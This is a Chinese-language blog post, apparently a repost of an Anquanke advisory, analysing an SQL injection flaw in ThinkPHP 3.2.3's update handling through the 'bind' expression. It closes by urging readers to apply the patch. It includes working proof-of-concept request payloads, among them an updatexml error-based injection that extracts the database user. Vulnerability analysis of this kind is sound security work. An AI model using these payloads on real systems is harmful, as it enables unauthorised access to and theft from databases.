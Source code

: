 title: Thinkphp3.2.3发现SQL注入漏洞！
author: hojun
avatar: https://wx1.sinaimg.cn/large/006bYVyvgy1ftand2qurdj303c03cdfv.jpg
authorDesc: 一个好奇的人
categories: 技术
date: 2018-04-16 19:40:40
authorLink: /about/hojun.html
authorAbout:
tags:
 - thinkphp
 - php
keywords: SQL注入漏洞
description: 安全客文章报道发现Thinkphp3.2.3最新版SQL注入漏洞！还使用Thinkphp3.2.3版本的小伙伴赶紧去github上更新补丁
photos:
 - https://wx2.sinaimg.cn/large/006bYVyvgy1fqeqiwzno1j30au0643yf.jpg
---
![](https://wx2.sinaimg.cn/large/006bYVyvgy1fqeqiwzno1j30au0643yf.jpg)
安全客文章报道发现Thinkphp3.2.3最新版SQL注入漏洞！还使用Thinkphp3.2.3版本的小伙伴赶紧去github上更新补丁！

----------


## **漏洞详情**
由于框架实现安全数据库过程中在update更新数据的过程中存在SQL语句的拼接，并且当传入数组未过滤时导致出现了SQL注入。

thinkphp系列框架过滤表达式注入多半采用I函数去调用think_filter
```php
function think_filter(&$value){
    if(preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i',$value))
```
有没有相关tips来达到I函数绕过呢？是可以的。
一般按照官方的写法，thinkphp提供了数据库链式操作，其中包含连贯操作和curd操作，在进行数据库CURD操作去更新数据的时候：
举例update数据操作。
![](https://wx1.sinaimg.cn/large/006bYVyvgy1fqeqbe8b70j30jm0c4mz4.jpg)
直接看框架的where子单元函数，之前网上公开的exp表达式注入就是从这里分析出来的结论:
Thinkphp/Library/Think/Db/Driver.class.php
其中除了exp能利用外还有一处bind，而bind可以完美避开了think_filter：

```php
elseif('bind' == $exp ){ // 使用表达式
    $whereStr .= $key.' = :'.$val[1];
}elseif('exp' == $exp ){ // 使用表达式
    $whereStr .= $key.' '.$val[1];
```

这里由于拼接了`$val`参数的形式造成了注入，但是这里的bind表达式会引入:符号参数绑定的形式去拼接数据，通过白盒对几处CURD操作函数进行分析定位到update函数，insert函数会造成sql注入，于是回到上面的updateh函数。
Thinkphp/Library/Think/Db/Driver.class.php
接着跟进execute函数，这里有处对$this->queryStr进行字符替换的操作：

```php
$this->queryStr =   strtr($this->queryStr,array_map(function($val) use($that){ return '''.$that->escapeString($val).'''; },$this->bind));
```

具体是什么，我这里写了一个实例：
常规的跟新数据库用户信息的操作：
Application/Home/Controller/UserController.class.php
```php
<?php
namespace HomeController;
use ThinkController;
class UserController extends Controller {
    public function index(){
        $User = M("member");
        $user['id'] = I('id');
        $data['money'] = I('money');
        $data['user'] = I('user');
        $valu = $User->where($user)->save($data);
        var_dump($valu);
    }
}
```
根据进来的id更新用户的名字和钱，构造一个简单一个poc
id[]=bind&id[]=1’&money[]=1123&user=liao
当走到execute函数时sql语句为：
```sql
UPDATE `member` SET `user`=:0 WHERE `id` = :1'
```
然后`$that = $this`
![](https://wx3.sinaimg.cn/large/006bYVyvgy1fqeqb93u9aj30f203cmxk.jpg)
然后下面的替换操作是将”:0”替换为外部传进来的字符串，这里就可控了。
![](https://wx3.sinaimg.cn/large/006bYVyvgy1fqeqb43ayyj30hs016mx5.jpg)
替换后：
![](https://wx3.sinaimg.cn/large/006bYVyvgy1fqeqbjj36jj30ea03bwew.jpg)
明显发现之前的user参数为:0然后被替换为了liao，这样就把:替换掉了。
后面的:1明显是替换不掉的：
![](https://wx1.sinaimg.cn/large/006bYVyvgy1fqeqims50kj30xk07nmyj.jpg)
那么我们将id[1]数组的参数变为0呢？
id[]=bind&id[]=0%27&money[]=1123&user=liao
![](https://wx1.sinaimg.cn/large/006bYVyvgy1fqeqirsj4qj312y08bwgd.jpg)
果然造成了注入：
POC:
money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))
![](https://wx1.sinaimg.cn/large/006bYVyvgy1fqeqj21mpsj311h06kq4e.jpg)

----------


## **修复方式**
更新最新补丁
https://github.com/top-think/thinkphp/
[原文地址](https://www.anquanke.com/post/id/104847)www.anquanke.com/post/id/104847